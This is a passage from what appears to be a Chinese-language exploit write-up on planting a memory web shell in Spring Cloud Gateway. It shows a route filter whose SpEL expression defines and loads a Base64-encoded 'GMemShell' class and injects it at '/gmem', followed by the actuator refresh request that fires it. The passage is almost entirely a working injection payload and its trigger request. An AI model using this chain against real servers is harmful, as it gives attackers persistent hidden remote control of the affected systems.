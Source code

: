 ```http
    "args": {
      "name": "Result",
      "value": "#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '/gmem')}"
    }
  }],
  "uri": "http://example.com"
}
```
![Spring-Cloud-Gateway-MemShell-8](assets/Spring-Cloud-Gateway-MemShell-8.png)

刷新路由

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: <IP:Port>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```